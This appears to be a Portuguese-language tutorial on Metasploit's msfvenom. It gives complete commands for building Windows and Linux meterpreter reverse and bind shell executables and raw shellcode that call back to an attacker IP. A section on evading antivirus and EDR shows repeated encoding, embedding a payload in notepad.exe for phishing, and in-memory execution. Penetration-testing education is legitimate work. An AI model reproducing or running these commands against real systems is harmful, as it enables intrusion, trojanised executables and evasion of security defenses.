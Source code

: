 O **MSFVenom** é uma ferramenta do **Metasploit** usada para gerar payloads e executáveis, combinando as funcionalidades de `msfpayload` e `msfencode`. Ele é essencial em testes de penetração para gerar payloads personalizados que podem ser usados em ataques direcionados.

## Estrutura Básica do MSFVenom

A estrutura básica do comando `msfvenom` é:

`msfvenom -p <payload> LHOST=<IP> LPORT=<Porta> -f <formato> -o <arquivo_saida>`

- **`-p` (Payload)**: Define o tipo de payload, por exemplo, `windows/meterpreter/reverse_tcp`.
- **`LHOST` e `LPORT`**: Define o IP e a porta que serão usados para a conexão reversa.
- **`-f` (Formato)**: Define o formato de saída, como `exe` para Windows, `elf` para Linux ou `raw` para código bruto de shellcode.
- **`-o` (Saída)**: Define o nome do arquivo de saída. Se não especificado, o output será exibido no console.

## Exemplos de Uso do MSFVenom

### Exemplo 1: Payload reverso para Windows

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell_reverse.exe`

### Exemplo 2: Payload de ligação para Linux

`msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=4444 -f elf -o bind_shell.elf`

### Exemplo 3: Payload em formato raw (somente shellcode)

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shellcode.bin`

## Parâmetros Adicionais para Personalização

- **`-a`**: Define a arquitetura do payload, como `x86` ou `x64`.
- **`--platform`**: Especifica a plataforma alvo, como `windows`, `linux` ou `osx`.
- **`-e`**: Define o encoder para ofuscação do payload. Exemplo: `-e x86/shikata_ga_nai`.
- **`-i`**: Define o número de vezes que o encoder será aplicado, aumentando a dificuldade de detecção. Exemplo: `-i 5`.
- **`--bad-chars`**: Define caracteres a serem evitados no shellcode, como caracteres nulos `\x00`.
- **`-x`**: Insere o payload em um arquivo template (útil para mascarar o payload em executáveis comuns).

## Técnicas Anti-Detecção

Para evitar a detecção por antivírus e EDR (Endpoint Detection and Response), considere as seguintes técnicas:

### 1. Uso de Encoders

Encoders aplicam uma camada de codificação ao payload, dificultando a detecção por assinaturas. Exemplo:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o bypassed_shell.exe`

### 2. Template com `-x`

Permite incluir o payload em executáveis legítimos, como um instalador de software, útil em ataques de phishing:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x notepad.exe -k -f exe -o hidden_shell.exe`

### 3. Ofuscação Avançada

Combine encoders e use formatos alternativos como `raw` ou `hex`, passando o código para scripts que geram executáveis posteriormente.

### 4. Payloads Menores e Códigos Customizados

Payloads menores ou personalizados podem evitar a detecção por assinatura. A opção `-s` limita o tamanho do payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -s 200 -f exe -o small_shell.exe`

### 5. Execução na Memória

Com o `Meterpreter`, é possível carregar e executar o payload diretamente na memória, sem escrita no disco, reduzindo a detecção.

## Dicas Finais para Evitar Detecção

- **Combine múltiplas técnicas**, como encoders e payloads customizados.
- **Teste em ambientes com antivírus** para ajustar as técnicas.
- **Utilize ferramentas pós-exploração do Meterpreter** para minimizar detecção durante a exploração.